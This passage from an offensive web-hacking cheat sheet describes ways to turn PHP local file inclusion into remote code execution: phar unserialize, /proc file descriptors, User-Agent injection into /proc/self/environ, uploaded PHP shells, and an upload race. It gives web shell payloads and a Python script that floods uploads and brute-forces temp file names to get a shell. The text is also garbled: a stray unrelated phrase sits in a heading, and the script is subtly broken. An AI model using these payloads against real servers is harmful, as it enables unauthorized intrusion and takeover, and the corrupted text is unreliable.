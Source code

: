 NOTE: The unserialize is triggered for the phar:// wrapper in any file operation, `file_exists` and many more.

## LFI to RCE via /proc/*/fd

1. Upload a lot of shells (for example : 100)
2. Include http://example.com/index.php?page=/proc/$PID/fd/$FD, with $PID = PID of the process (can be bruteforced) and $FD the filedescriptor (can be bruteforced too)

## LFI to RCE via /proc/self/environ

Like a log file, send the payload in the User-Agent, it will be reflected inside the /proc/self/environ file

```powershell
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

## LFI to RCE via upload

If you can upload a file, just inject the shell payload in it (e.g : `<?php system($_GET['c']); ?>` ).

```powershell
http://example.com/index.php?page=path/to/uploaded/file.png
```

In order to keep the file readable it is best to inject into the metadata for the pictures/doc/pdf

## LFI to RCE via upload (race)
Worlds Quitest Let's Play"
* Upload a file and trigger a self-inclusion.
* Repeat 1 a shitload of time to:
* increase our odds of winning the race
* increase our guessing odds
* Bruteforce the inclusion of /tmp/[0-9a-zA-Z]{6}
* Enjoy our shell.

```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```
